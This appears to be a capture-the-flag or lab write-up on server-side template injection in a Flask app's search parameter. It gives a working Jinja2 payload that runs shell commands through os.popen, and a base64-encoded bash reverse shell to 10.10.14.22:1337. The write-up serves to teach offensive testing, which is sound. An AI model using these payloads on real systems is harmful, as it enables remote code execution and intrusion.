 ## RCE via Server Side Template Injection
flask application are build on templates. With inproper use of that vulnerability called Server Side Template Injection can be introduced. This allows to execute code on the server.

Here search functionality is vulnerable to SSTI (Server Side Template Injection).
With `email` parameter set for `{{url_for}}` application renedrs `url_for` object.
![untitled](images/12.png)

With email parameter set to `{{url_for.__globals__.__builtins__.__import__('os').popen('ls').read()}}`
![untitled](images/13.png)
Application returns output of `ls` commands and list all files in directory
This payload takes advantage of python classes and special objects like `__builtins__` is set of built-in functions of python language like `import` which is called next as `__import__('os')`. This mean that code now imports `os` module. Next `popen` from os module is called with argument `ls` shell command to execute. Popen do not return output from executed command directly `read()` function needs to be called to get `stdout`

### Reverse Shell
Used payload for reversed shell is 
First encode command that send shell connection to `base64`
```
echo -n "bash  -i >&  /dev/tcp/10.10.14.22/1337 0>&1  " | base64
```
Next in popen it needs to be decoded `base64 -d` and executed in `bash`
```
{{url_for.__globals__.__builtins__.__import__('os').popen('echo+YmFzaCAgLWkgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjIyLzEzMzcgMD4mMSAg|base64+-d|bash').read()}} 
```
Make sure to do not have any special characters in base64 like `+` or `=`
And connection is recieved as user `sparkles`
